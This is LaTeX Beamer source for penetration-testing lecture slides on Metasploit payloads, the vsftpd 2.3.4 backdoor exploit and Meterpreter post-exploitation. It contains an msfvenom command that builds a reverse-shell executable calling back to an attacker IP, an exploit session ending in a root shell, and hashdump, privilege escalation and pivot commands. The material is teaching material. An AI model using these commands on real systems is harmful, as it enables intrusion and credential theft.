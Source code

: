 \documentclass[aspectratio=169,11pt]{beamer}
\newcommand{\legalbox}[1]{%
  \begin{beamercolorbox}[wd=\textwidth,sep=6pt,rounded=true]{block body}%
  \color{warnRed}\textbf{\faExclamationTriangle\ Legal/Ethics:} #1%
  \end{beamercolorbox}}
\begin{document}
\begin{frame}[fragile]{Payloads: bind vs reverse, Meterpreter, msfvenom}
  \begin{itemize}\footnotesize
    \item \textbf{Bind} (attacker connects in) vs \textbf{reverse} (target calls
          home --- beats inbound firewalls, the common case).
    \item \textbf{Staged} (\texttt{.../meterpreter/reverse\_tcp}, the \texttt{/})
          vs \textbf{stageless} (self-contained).
    \item \textbf{Meterpreter} --- in-memory, extensible: files, \texttt{hashdump},
          keylog, pivot, no disk touch.
  \end{itemize}
  \begin{lstlisting}[language=bash]
# Generate a standalone payload artifact, catch it with multi/handler
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.3 LPORT=4444 -f exe -o shell.exe
  \end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Live demo --- exploitation (vsftpd 2.3.4)}
  \begin{lstlisting}[language=bash]
msf6 > search vsftpd
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(...) > set RHOSTS <TARGET>
msf6 exploit(...) > exploit
[*] Command shell session 1 opened ...
$ whoami
root
  \end{lstlisting}
  \footnotesize \faTerminal\ \textbf{Demo runs from the cheat-sheet
  (\texttt{demo\_cheatsheet.pdf}).} We will also catch a \textbf{Meterpreter}
  session via \texttt{java\_rmi\_server} to show the difference between a raw
  shell and a managed session.
\end{frame}

\section{Post-Exploitation}
\begin{frame}[fragile]{Post-exploitation goals \& Meterpreter}
  \begin{lstlisting}[language=bash]
meterpreter > getuid                  # who am I?
meterpreter > sysinfo                 # OS, arch
meterpreter > getsystem               # try privilege escalation
meterpreter > hashdump                # local password hashes
meterpreter > run post/multi/recon/local_exploit_suggester
meterpreter > portfwd add -l 3389 -p 3389 -r 10.0.0.9  # pivot
  \end{lstlisting}
  \footnotesize \textbf{After a foothold:} situational awareness $\to$ privilege
  escalation $\to$ credential harvesting $\to$ persistence $\to$ lateral movement
  $\to$ objective.
  \legalbox{\footnotesize Persistence \& \texttt{hashdump} on a real client must
  be in the RoE and cleaned up.}
\end{frame}
\end{document}
